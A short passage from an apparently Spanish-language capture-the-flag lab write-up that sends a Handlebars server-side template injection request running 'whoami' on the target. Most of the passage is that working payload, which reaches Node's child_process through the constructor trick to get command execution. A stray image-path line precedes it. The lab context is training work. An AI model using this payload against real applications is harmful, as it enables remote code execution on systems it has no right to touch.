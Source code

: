 Le mandamos otra petición con un `whoami`:

```js
{ {#with "s" as |string|}}
{ {#with "e"}}
{ {#with split as |conslist|}}
{ {this.pop}}
{ {this.push (lookup string.sub "constructor")}}
{ {this.pop}}
{ {#with string.split as |codelist|}}
{ {this.pop}}
{ {this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
{ {this.pop}}
{ {#each conslist}}
{ {#with (string.sub.apply 0 codelist)}}
{ {this}}
{ {/with}}
{ {/each}}
{ {/with}}
{ {/with}}
{ {/with}}
{ {/with}}
```

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Bike/ssti6.png" alt="under" oncontextmenu="return false;">
</div>
